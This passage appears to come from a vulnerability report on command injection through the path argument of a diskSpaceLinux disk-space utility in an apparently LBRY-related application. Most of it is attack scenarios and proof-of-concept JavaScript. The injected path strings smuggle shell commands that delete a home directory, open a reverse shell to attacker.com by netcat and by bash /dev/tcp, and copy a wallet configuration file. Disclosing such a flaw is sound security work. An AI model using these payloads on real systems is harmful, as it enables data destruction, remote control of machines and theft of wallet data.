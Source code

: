 ### Critical Impact
- **Arbitrary Code Execution:** Attackers can execute any system command
- **Complete System Compromise:** Full access to user's system and files
- **Privilege Escalation:** Potential elevation to system privileges
- **Data Theft:** Access to sensitive user data and wallet files
- **Malware Installation:** Ability to install persistent malware

### Attack Scenarios

#### Scenario 1: Simple Command Injection
```javascript
// Attacker provides malicious path
const maliciousPath = "/tmp; rm -rf /home/user; echo 'hacked'";
diskSpaceLinux(maliciousPath);
// Executes: df /tmp; rm -rf /home/user; echo 'hacked'
```

#### Scenario 2: Reverse Shell
```javascript
// Attacker provides path with reverse shell
const reverseShellPath = "/tmp; nc -e /bin/sh attacker.com 4444";
diskSpaceLinux(reverseShellPath);
// Executes: df /tmp; nc -e /bin/sh attacker.com 4444
```

#### Scenario 3: Data Exfiltration
```javascript
// Attacker steals wallet data
const stealPath = "/tmp; cp ~/.lbryum/lbryum.conf /tmp/stolen; echo 'stolen'";
diskSpaceLinux(stealPath);
// Executes: df /tmp; cp ~/.lbryum/lbryum.conf /tmp/stolen; echo 'stolen'
```

## Proof of Concept

### PoC 1: Command Injection via Path Parameter
```javascript
// SPDX-License-Identifier: MIT
const { diskSpaceLinux, diskSpaceMac } = require('./ui/util/diskspace.js');

// Malicious path with command injection
const maliciousPath = "/tmp; echo 'VULNERABLE' > /tmp/poc.txt; echo 'hacked'";

// This will execute: df /tmp; echo 'VULNERABLE' > /tmp/poc.txt; echo 'hacked'
diskSpaceLinux(maliciousPath)
  .then(result => console.log('Disk space:', result))
  .catch(error => console.log('Error:', error));
```

### PoC 2: Reverse Shell Attack
```javascript
// Attacker-controlled reverse shell
const reverseShellPath = "/tmp; bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'";

diskSpaceLinux(reverseShellPath)
  .then(() => console.log('Reverse shell executed'))
  .catch(error => console.log('Error:', error));
```
